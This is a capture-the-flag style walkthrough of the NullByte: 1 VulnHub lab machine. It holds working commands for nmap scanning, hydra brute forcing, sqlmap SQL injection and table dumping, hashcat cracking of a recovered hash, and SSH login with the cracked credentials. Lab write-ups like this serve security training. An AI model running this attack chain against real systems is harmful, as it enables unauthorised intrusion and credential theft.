










::::::::::::::::::::::::::: page
# NullByte: 1 {#nullbyte-1 .title}

\

## 

## NullByte: 1

- **[NullByte: 1]{style="color:#ffbe6f;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/nullbyte-1,126/>

- Now unzip the file .
- Open ovf file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#ff7800;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::

- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.169
:::

- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.169
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.169
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.169
:::

1.  [Web Enumeration]{style="color:#ff7800;"} :

- IP visit in browser : <http://192.168.2.169>

<!-- -->

- View the source code :

- Download the image :

::: codebox
    wget http://192.168.2.169/main.gif
:::

- After download the image then show the file info :

::: codebox
    exiftool main.gif
:::

- Find the clue in this information :

::: codebox
    Comment : P-): kzMb5nVYJw
:::

- Visit the clue in browser : <http://192.168.2.169/kzMb5nVYJw/>

<!-- -->

- Directory brute force :

::: codebox
    gobuster dir -u http://192.168.2.169/kzMb5nVYJw/ -w /usr/share/wordlists/dirb/common.txt
:::

- Run the hydra to brute force this :

::: codebox
    hydra 192.168.2.169 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l "" -P /usr/share/dict/words -t 10 -w 30
:::

- Enter the password in the url :
  <http://192.168.2.169/kzMb5nVYJw/index.php>

::: codebox
    Password : elite
:::

 Press enter .

- After press the enter then show the form :

- Now enter the any value :

- Get the parameter :
  <http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=abc>

1.  [Check the SQLi]{style="color:#ff7800;"} :

- Inject the payload in parameter :
  [http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=](http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=%22)

::: codebox
    "
:::

 Confirm that run in sqli .

- Run sqlmap command to find the database :

::: codebox
    sqlmap -u "http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=abc" --dbs
:::

- Find the table :

::: codebox
    sqlmap -u "http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=abc" -D seth --tables 
:::

- Find the columns :

::: codebox
    sqlmap -u "http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=abc" -D seth -T users --columns
:::

- Dump specific columns\' data :

::: codebox
    sqlmap -u "http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=abc" -D seth -T users -C position,user,id,pass --dump
:::

 All data dump .

- Without column name data dump :

::: codebox
    sqlmap -u "http://192.168.2.169/kzMb5nVYJw/420search.php?usrtosearch=abc" -D seth -T users --dump
:::

- Found base64 encode value as password field :

::: codebox
    YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE
:::

1.  [Password Cracking]{style="color:#ff7800;"} :

- Now decode the value :

::: codebox
    echo 'YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE=' | base64 -d
:::

- Hash identify :

::: codebox
    hash-identifier c6d6bd7ebf806f43c76acc3681703b81
:::

- Hash enter in the file :

::: codebox
    echo "c6d6bd7ebf806f43c76acc3681703b81" > hash.txt
:::

- Crack password with hashcat :

::: codebox
    hashcat -m 0 hash.txt /opt/rockyou.txt
:::

1.  [SSH Connection]{style="color:#ff7800;"} :

- SSH login :

::: codebox
    Username : ramses
    Password : omega
:::

- 

::: codebox
    ssh -p 777 ramses@192.168.2.169 
:::

:::::::::::::::::::::::::::
